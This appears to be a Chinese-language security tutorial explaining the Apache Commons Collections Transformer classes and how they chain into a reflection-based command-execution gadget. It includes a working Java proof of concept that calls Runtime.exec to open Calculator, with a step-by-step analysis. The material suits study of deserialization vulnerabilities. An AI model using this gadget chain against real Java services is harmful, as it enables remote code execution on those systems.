






# CommonsCollections

## 前言

`Apache Commons`是`Apache`开源的Java通用类项目在Java中项目中被广泛的使用，`Apache Commons`当中有一个组件叫做`Apache Commons Collections`，主要封装了Java的`Collection（集合）`相关类对象。

在`Commons Collections`中实现了一个`TransformedMap类`，该类是对 Java 标准数据结构类型`Map`接口的一个扩展。该类可以在一个元素被加入到集合内时，自动对该元素进行特定的修饰变化，而具体的变换逻辑则由`Transformer`类定义，`Transformer`在`TransformedMap`实例化时作为参数传入。

## 接口类和实现类

### Transformer

`Transformer`是一个接口类，其功能是提供一个对象转换方法`transform`，源码如下：

```java
public interface Transformer {
  	// 将输入对象保持不变的转换为某个输出对象
    Object transform(Object var1);
}
```

实现`Transformer`接口的类有以下类


其中一些实现和调用`Transformer`接口的重要类为：`ConstantTransformer`、`invokerTransformer`、`ChainedTransformer`和`TransformedMap`。
### ConstantTransformer

`ConstantTransformer`类是`Transformer`接口其中的一个实现类，`ConstantTransformer`类重写了`transformer`方法，源码如下

```java
public class ConstantTransformer implements Transformer, Serializable {
    private static final long serialVersionUID = 6374440726369055124L;
    public static final Transformer NULL_INSTANCE = new ConstantTransformer((Object)null);
    private final Object iConstant;

    public static Transformer getInstance(Object constantToReturn) {
        return (Transformer)(constantToReturn == null ? NULL_INSTANCE : new ConstantTransformer(constantToReturn));
    }

    public ConstantTransformer(Object constantToReturn) {
        this.iConstant = constantToReturn;
    }

    public Object transform(Object input) {
        return this.iConstant;
    }

    public Object getConstant() {
        return this.iConstant;
    }
}
```

传入的对象不会经过任何改变进行返回，也就是当调用`transform`方法时会返回构造函数中传入的对象。
```java
package com.serialize;

import org.apache.commons.collections.functors.ConstantTransformer;

/**
 * Created by dotast on 2022/9/1 10:34
 */
public class TransformerTest {
    public static void main(String[] args){
        Object obj = Runtime.class;
        ConstantTransformer constantTransformer = new ConstantTransformer(obj);
        System.out.println(constantTransformer.transform(obj));
    }
}
```


### InvokerTransformer

`InvokerTransformer`类在`Collections`组件中非常重要，也是我们后面构造 exp 的核心类。`InvokerTransformer`类的`transform`方法实现了类方法的动态调用，采用反射机制动态调用类方法（发射方法名、参数值可控）并返回该方法执行结果。该部分代码如下：

```java
public class InvokerTransformer implements Transformer, Serializable {
    private static final long serialVersionUID = -8653385846894047688L;
  	// 要调用的方法名称
    private final String iMethodName;
  	// 反射参数类型数组
    private final Class[] iParamTypes;
  	// 反射参数值数组
    private final Object[] iArgs;

 		//省略

    public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
        this.iMethodName = methodName;
        this.iParamTypes = paramTypes;
        this.iArgs = args;
    }

    public Object transform(Object input) {
        if (input == null) {
            return null;
        } else {
            try {
                Class cls = input.getClass();
                Method method = cls.getMethod(this.iMethodName, this.iParamTypes);
                return method.invoke(input, this.iArgs);
            } catch (NoSuchMethodException var4) {
                //异常处理
        }
    }
}
```

通过`InvokerTransformer`类实现命令执行
```java
package com.serialize;

import org.apache.commons.collections.functors.InvokerTransformer;

/**
 * Created by dotast on 2022/9/1 10:34
 */
public class TransformerTest {
    public static void main(String[] args){
        String cmd = "open -a Calculator.app";
        InvokerTransformer invokerTransformer = new InvokerTransformer(
                "exec",new Class[]{String.class}, new Object[]{cmd}
        );
        invokerTransformer.transform(Runtime.getRuntime());
    }
}
```



在现实场景下很难通过`InvokerTransformer.transform`传入`Runtime.getRuntime()`对象完成命令执行，因此我们需要学习下一个接口实现类`ChainedTransformer`来构造我们的攻击链。
### ChainedTransformer

`ChainedTransformer`类封装了`Transformer`的链式调用，当传入一个`Transformer`数组时，`ChainedTransformer`就会依次调用每一个`Transformer`的`transform`方法，关键源码如下所示：

```java
public class ChainedTransformer implements Transformer, Serializable {
    private static final long serialVersionUID = 3514945074733160196L;
    private final Transformer[] iTransformers;
		
    public ChainedTransformer(Transformer[] transformers) {
        this.iTransformers = transformers;
    }

    public Object transform(Object object) {
        for(int i = 0; i < this.iTransformers.length; ++i) {
            object = this.iTransformers[i].transform(object);
        }

        return object;
    }
}
```

贴一张 P 牛画的图


通过`ChainedTransformer`类实现命令执行
```java
package com.serialize;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;;

/**
 * Created by dotast on 2022/9/1 10:34
 */
public class TransformerTest {
    public static void main(String[] args){
        String cmd = "open -a Calculator.app";

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                // new Class[0]为占位符
                new InvokerTransformer(
                        "getMethod",new Class[]{String.class, Class[].class},new Object[]{"getRuntime",new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",new Class[]{Object.class, Object[].class},new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec", new Class[]{String.class}, new Object[]{cmd}
                )
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        Object transformer = chainedTransformer.transform(null);
    }
}

```



先对上述的`poc`做一个分析：

**ConstantTransformer**

```java
new ConstantTransformer(Runtime.class)
```

传入的`java.lang.Runtime`类原封不动的返回并作为`input`参数传入到下一个`InvokerTransformer`的`transform(Object input)`方法中


**InvokerTransformer 1**

```java
new InvokerTransformer(
                        "getMethod",new Class[]{String.class, Class[].class},new Object[]{"getRuntime",new Class[0]}
                ),
```

通过`InvokerTransformer`类的`transform()`方法里的反射，获取到`java.lang.Runtime`类的`getMethod()`方法并执行`getRuntime()`方法


最后返回`java.lang.Runtime.getRuntime()`方法并作为`input`参数传入到下一个`InvokerTransformer`的`transform(Object input)`方法中

**InvokerTransformer 2**

```java
new InvokerTransformer(
                        "invoke",new Class[]{Object.class, Object[].class},new Object[]{null, new Object[0]}
                )
```



传入的`Method`对象通过`getClass()`获取到反射类`java.lang.reflect.Method`，接着通过反射获取到`invoke()`方法执行传入的`java.lang.Runtime.getRuntime()`方法，返回`Runtime`对象并作为`input`参数传入到下一个`InvokerTransformer`的`transform(Object input)`方法中

这里比较有趣的是在最后执行`method.invoke(input,null)`时代入参数是`invoke.invoke(input,null)`的形式，依然能执行命令。

**InvokerTransformer 3**

```java
new InvokerTransformer(
                        "exec", new Class[]{String.class}, new Object[]{cmd}
                )
```


传入的`Runtime`实例通过`getClass()`获取到`Runtime`类，接着通过反射获取到`exec()`方法，最后通过`invoke()`执行传进来的`iArgs`命令

至此通过`ChainedTransformer`类，把`ConstantTransformer`类和多个`InvokerTransformer`类实现的`transform`方法一一执行，完成命令执行的利用链。
